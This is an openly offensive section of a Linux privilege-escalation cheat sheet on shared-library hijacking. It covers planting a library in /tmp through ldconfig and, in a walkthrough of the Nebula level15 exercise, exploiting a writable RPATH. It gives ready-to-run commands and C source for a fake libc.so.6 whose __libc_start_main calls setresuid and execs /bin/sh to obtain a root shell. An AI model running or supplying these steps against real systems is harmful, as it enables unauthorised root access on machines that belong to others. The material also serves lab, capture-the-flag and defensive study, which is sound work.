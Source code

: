 ## Shared Library

### ldconfig

Identify shared libraries with `ldd`

```powershell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

Create a library in `/tmp` and activate the path.

```powershell
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

### RPATH

```powershell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```powershell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```powershell
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

